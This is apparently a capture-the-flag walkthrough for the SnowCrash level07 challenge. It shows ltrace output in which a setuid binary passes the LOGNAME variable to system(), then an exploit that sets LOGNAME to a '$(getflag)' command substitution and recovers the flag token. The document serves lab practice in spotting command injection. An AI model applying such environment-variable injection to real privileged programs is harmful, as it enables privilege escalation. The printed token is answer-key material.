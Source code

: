 
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                            = 2007
geteuid()                                                            = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                  = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                  = 0
getenv("LOGNAME")                                                    = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff4a, 0xb7e5ee55, 0xb7fed280)  = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                               = 0
+++ exited (status 0) +++



level07@SnowCrash:~$ export LOGNAME='$(getflag)'
level07@SnowCrash:~$ env

level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h


